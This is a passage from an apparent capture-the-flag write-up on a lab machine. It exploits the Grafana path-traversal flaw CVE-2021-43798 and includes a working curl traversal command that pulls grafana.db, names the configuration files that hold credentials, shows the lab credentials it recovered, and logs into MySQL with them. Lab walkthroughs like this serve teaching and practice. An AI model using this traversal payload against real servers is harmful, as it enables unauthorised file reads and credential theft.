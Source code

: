 ```console
consul:x:997:997::/home/consul:/bin/false
```

This other exploit gave good info on what to search for with grafana. Unfortunately I had issues running the exploit but my previous one worked so I just put them together.

https://github.com/jas502n/Grafana-CVE-2021-43798

These 2 files that are mentioned in the exploit are super important. They have creds hiding in them.

```
/var/lib/grafana/grafana.db
/etc/grafana/grafana.ini
```
By looking in grafan.ini we find the following creds.

```
admin
messageInABottle685427
```

grafana.db had alot more info and some weird credentials. Using the previous exploit I was able to get part of a password and the username.

Note: When I tried this for a 2nd and 3rd time after reseting the machine these credentials were not here at all.

```
grafana
dontStandSoCloseToMe
```

But this did not work.

So I tried the manual version of the LFI and pulled the file straight from the site with curl and then viewed it with sqlitebrowser.

```curl -u admin:messageInABottle685427 --path-as-is http://10.129.52.15:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db```

Doing so we can find the creds under data-source!

```
grafana
dontStandSoCloseToMe63221!
```

![image](https://user-images.githubusercontent.com/105310322/193697435-4d0f1c62-016a-48dd-bbf6-cb44fd87f056.png)

We can confirm that we are able to login through mysql with the username and password.

```console
└──╼ [★]$ mysql -h 10.129.52.15 -u grafana -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```
But because I did not want to go through using mysql manually I opted to dump the database and just grep the password.
